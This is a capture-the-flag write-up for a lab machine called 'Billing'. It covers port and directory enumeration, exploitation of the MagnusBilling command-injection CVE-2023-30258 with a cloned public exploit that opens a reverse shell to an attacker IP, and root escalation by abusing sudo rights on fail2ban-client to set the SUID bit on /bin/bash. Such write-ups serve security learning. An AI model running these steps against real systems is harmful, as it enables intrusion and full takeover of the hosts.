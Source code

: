# Billing



## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 10.10.15.120 -oN port_scan.txt -Pn 

Nmap scan report for 10.10.15.120
Host is up (0.035s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumeration

### Dir/file enum

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.15.120/mbilling/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/tmp                  (Status: 301) [Size: 319] [--> http://10.10.15.120/mbilling/tmp/]
/lib                  (Status: 301) [Size: 319] [--> http://10.10.15.120/mbilling/lib/]
/assets               (Status: 301) [Size: 322] [--> http://10.10.15.120/mbilling/assets/]
/archive              (Status: 301) [Size: 323] [--> http://10.10.15.120/mbilling/archive/]
resources                        (Status: 301) [Size: 325] [--> http://10.10.15.120/mbilling/resources/]
/fpdf                 (Status: 301) [Size: 320] [--> http://10.10.15.120/mbilling/fpdf/]

```
{% endcode %}

{% code title="Versioning list" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.140.114/mbilling/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/versioning_metafiles.txt -b 403,404

/README.md            (Status: 200) [Size: 1995]
```
{% endcode %}

In the README.md we can found the major version of the software.

<figure><img src="../../../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>



### CVE-2023-30258 - mbilling Command Injection

Searching with searchsploit we can found a interesting thing

```bash
searchsploit MagnusBilling

MagnusSolution magnusbilling 7.3.0 - Command Injection  multiple/webapps/52170.txt
```

A possible version is affected to a Command Injection vulnerability.

Searching online i have found a repository with a python exploit that exploit this vulnerability making a requesto to the `/mbilling/lib/icepay/icepay.php` with a RevShell payload in the `democ` parameter.

```bash
git clone https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit

python3 exploit.py -t 10.10.140.114 -a 10.23.52.142 -p 9009
```

We obtained a rev shell!

<figure><img src="../../../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

Now we can found user's flag in the follow path:

```bash
cat /home/magnus/user.txt
```



## Privilege Escalation

Enumeration with linpeas.sh

```bash
sudo -l 

User asterisk may run the following commands on ip-10-10-140-114:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

With the sudo rights on the fail2ban-client we have the possibility to Escalate out privilege to a root shell.

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/" %}

{% code overflow="wrap" %}
```bash
# Get jail list
sudo /usr/bin/fail2ban-client status

# Choose one of the jails from the previous list
sudo /usr/bin/fail2ban-client get asterisk-iptables actions

# Create a new action with arbitrary name
sudo /usr/bin/fail2ban-client set asterisk-iptables addaction sksk

# Set payload to actionban
sudo /usr/bin/fail2ban-client set asterisk-iptables action sksk actionban "chmod +s /bin/bash"

# Trigger the action
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.4.2

# Spawn a shell as root
/bin/bash -p
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (298).png" alt=""><figcaption></figcaption></figure>

Print the last root flag

```bash
cat /root/root.txt
```
